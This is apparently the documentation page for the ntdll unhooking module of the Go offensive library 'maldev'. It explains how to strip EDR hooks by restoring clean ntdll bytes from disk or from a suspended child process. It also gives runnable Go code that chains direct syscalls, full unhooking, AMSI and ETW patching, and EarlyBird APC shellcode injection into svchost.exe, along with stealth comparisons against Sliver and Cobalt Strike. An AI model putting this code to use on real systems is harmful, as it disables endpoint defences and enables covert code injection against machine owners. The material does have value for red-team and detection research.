

# ntdll Unhooking

> **MITRE ATT&CK:** T1562.001 -- Impair Defenses: Disable or Modify Tools | **D3FEND:** D3-HBPI -- Hook-Based Process Instrumentation | **Detection:** High

## For Beginners

When an EDR (Endpoint Detection and Response) product loads into your process, it modifies critical system functions by inserting a "detour" -- a jump instruction at the beginning of the function that redirects execution to the EDR's monitoring code. This is called "hooking." When your program calls `NtAllocateVirtualMemory`, instead of going straight to the kernel, it first passes through the EDR's inspector, which decides whether to allow or block the call.

Unhooking is like finding the original blueprints for a building and rebuilding the doors without the security guard's tripwires. You obtain a clean copy of ntdll.dll -- the library containing all the NT functions that EDR hooks -- and replace the modified (hooked) bytes with the original ones. After unhooking, your NT function calls go directly to the kernel without passing through the EDR.

maldev provides three unhooking methods of increasing sophistication, each trading off stealth for completeness.

## How It Works



### Method 1: Classic Unhook

Restores the first 5 bytes of a specific function. The on-disk ntdll.dll is never hooked (hooks are applied in-memory after loading), so reading the file gives you the clean prologue.

**Trade-off:** Low footprint but only fixes one function at a time. You must know which functions are hooked.

### Method 2: Full Unhook

Replaces the entire `.text` section of the loaded ntdll.dll with the clean version from disk. This removes ALL hooks at once -- every function in ntdll is restored.

**Trade-off:** Comprehensive but reads ntdll.dll from disk, which EDR may monitor via file I/O telemetry.

### Method 3: Perun Unhook

Spawns a sacrificial process (notepad.exe) in a suspended state, reads the clean ntdll `.text` from its memory (before EDR hooks are applied), then terminates it. This avoids reading ntdll.dll from disk entirely.

**Trade-off:** Stealthiest source of clean bytes, but spawning a process is visible. Some EDR products hook early enough that even suspended processes have hooks.

## Usage

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion/unhook"
)

func main() {
    // Classic: unhook a single function.
    if err := unhook.ClassicUnhook("NtAllocateVirtualMemory", nil); err != nil {
        log.Fatal(err)
    }

    // Full: unhook everything from disk.
    if err := unhook.FullUnhook(nil); err != nil {
        log.Fatal(err)
    }

    // Perun: unhook everything from a clean child process.
    if err := unhook.PerunUnhook(nil); err != nil {
        log.Fatal(err)
    }
}
```

## Combined Example

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/evasion/etw"
    "github.com/oioio-space/maldev/evasion/unhook"
    "github.com/oioio-space/maldev/inject"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    // 1. First use indirect syscalls to unhook ntdll (chicken-and-egg:
    //    we need clean syscalls to unhook, so use direct syscall stubs).
    caller := wsyscall.New(wsyscall.MethodDirect,
        wsyscall.Chain(wsyscall.NewHellsGate(), wsyscall.NewHalosGate()))

    // 2. Full unhook via Caller (avoids hooked VirtualProtect).
    if err := unhook.FullUnhook(caller); err != nil {
        log.Fatal(err)
    }

    // 3. Now ntdll is clean -- patch AMSI and ETW with standard calls.
    techniques := []evasion.Technique{
        amsi.ScanBufferPatch(),
        etw.All(),
    }
    evasion.ApplyAll(techniques, nil)

    // 4. Inject shellcode -- all NT calls now go directly to kernel.
    injector, err := inject.Build().
        Method(inject.MethodEarlyBirdAPC).
        ProcessPath(`C:\Windows\System32\svchost.exe`).
        Create()
    if err != nil {
        log.Fatal(err)
    }
    injector.Inject(shellcode)
}
```

## Advantages & Limitations

| Aspect | Detail |
|--------|--------|
| Stealth (Classic) | Medium -- only reads 5 bytes per function from disk. Small footprint. |
| Stealth (Full) | Medium-Low -- reads the entire ntdll.dll file, which generates file I/O telemetry. |
| Stealth (Perun) | Medium -- avoids disk reads but spawns a visible child process. |
| Effectiveness | High -- once unhooked, all NT calls bypass EDR user-mode monitoring. |
| Scope | Process-local. Only unhooks ntdll in the current process. |
| Limitations | Kernel-mode hooks (minifilters, ETW-TI) are not affected. Some EDR re-hooks periodically. Memory integrity scanning detects .text modifications. |
| Caller support | All methods accept `*wsyscall.Caller` to route `VirtualProtect`/`WriteProcessMemory` through clean syscalls. |

## Compared to Other Implementations

| Feature | maldev | Sliver | CobaltStrike | D3Ext/maldev |
|---------|--------|--------|--------------|--------------|
| Classic (per-function) | Yes | No | No | Yes |
| Full (.text from disk) | Yes | Yes | No | Yes |
| Perun (from child process) | Yes | No | No | No |
| PerunUnhookTarget (custom proc) | Yes | No | No | No |
| Caller-routed writes | Yes | No | N/A | No |
| PE export parsing | `debug/pe` | Manual | N/A | Manual |
| Technique interface | `unhook.Full()`, etc. | Built-in | N/A | Function |
| CommonClassic preset | Yes (known hooked funcs) | No | No | No |

## API Reference

```go
// ClassicUnhook restores the first 5 bytes of a hooked ntdll function
// from the clean ntdll.dll on disk.
func ClassicUnhook(funcName string, caller *wsyscall.Caller) error

// FullUnhook replaces the entire .text section from disk.
func FullUnhook(caller *wsyscall.Caller) error

// PerunUnhook reads pristine ntdll from a suspended notepad.exe child.
func PerunUnhook(caller *wsyscall.Caller) error

// PerunUnhookTarget uses a specified process instead of notepad.exe.
func PerunUnhookTarget(target string, caller *wsyscall.Caller) error

// Technique constructors:
func Classic(funcName string) evasion.Technique
func Full() evasion.Technique
func Perun() evasion.Technique
func CommonClassic() []evasion.Technique  // common hooked functions
```
